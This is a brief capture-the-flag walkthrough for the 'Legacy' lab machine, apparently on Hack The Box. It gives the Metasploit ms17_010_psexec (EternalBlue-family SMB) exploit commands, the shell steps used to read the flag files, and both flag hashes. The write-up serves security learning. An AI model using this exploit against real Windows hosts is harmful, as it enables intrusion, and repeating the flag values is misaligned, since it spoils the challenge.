

# Legacy: Walkthrough 

## Legacy Nmap Scan



## Shell
Eternal Blue is used to gain shell. As the nmap shows the Windows machine has a chance 94% of being an Windows XP machine a quick exploitdatebase search of a potential vulnerablity revealed ms17_010_psexec
```
use windows/smb/ms17_010_psexec
set RHOSTS 10.10.10.4
exploit
```


```
>cd Documents and Settings
>cd \john\Desktop
>cat \user.txt
>cd
>cd Administrator 
>ls
>cd Desktop
>ls
>cat root.txt
```


# Flags

| John          | e69af0e4f443de7e36876fda4ec7644f  |
| ------------- | ------------- |
| root          | 993442d258b0e0ec917cae9e695d5713  |
